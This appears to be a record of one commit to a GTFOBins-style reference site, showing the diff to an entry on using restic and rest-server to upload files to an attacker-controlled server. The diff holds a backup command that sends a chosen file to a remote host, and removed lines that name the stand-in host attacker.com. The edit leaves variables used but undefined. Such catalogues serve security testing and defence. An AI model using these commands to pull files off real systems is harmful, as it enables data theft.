

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/restic.md, in a window 1280 px wide. Shown: the part 335-915 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update restic.md

````diff
--- a/_gtfoud/restic.md
+++ b/_gtfoud/restic.md
@@ -3,7 +3,6 @@
   The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/) is used but there are other options. To start a new instance and create a new repository:
 
   ```console
-  RPORT=12345
   NAME=backup_name
   ./rest-server --listen ":$RPORT"
   restic init -r "rest:http://localhost:$RPORT/$NAME"
@@ -19,9 +18,6 @@
 functions:
   file-upload:
     - code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_or_dir_to_get
         NAME=backup_name
         restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
 ---
````
